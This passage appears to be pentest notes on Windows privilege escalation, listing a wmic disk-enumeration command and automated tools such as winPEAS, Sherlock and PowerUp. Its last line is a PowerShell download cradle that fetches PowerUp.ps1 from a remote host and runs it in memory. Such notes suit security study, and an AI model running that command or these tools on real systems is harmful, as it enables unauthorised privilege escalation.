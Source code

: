 - `wmic logicaldisk get caption,description,providername` get all disks

### Automated tools 

- windows-privesc-check
- EXE
	- winpeas.exe
	- watson.exe
	- sharpup.exe
- PowerShell
	- sherlock.ps1
	- powerup.ps1
	- jaws-enum.ps1
- Other 
	- windows-exploit-suggester.py (runs on attack machine)
	- Explot suggester (metasploit)

#### PowerUp

- run and invoke. Add `Invoke-AllChecks` to the bottom of the script. 
- `echo IEX(New-Object Net.WebClient).DownloadString('http://1.1.1.1/PowerUp.ps1') | powershell -noprofile -`
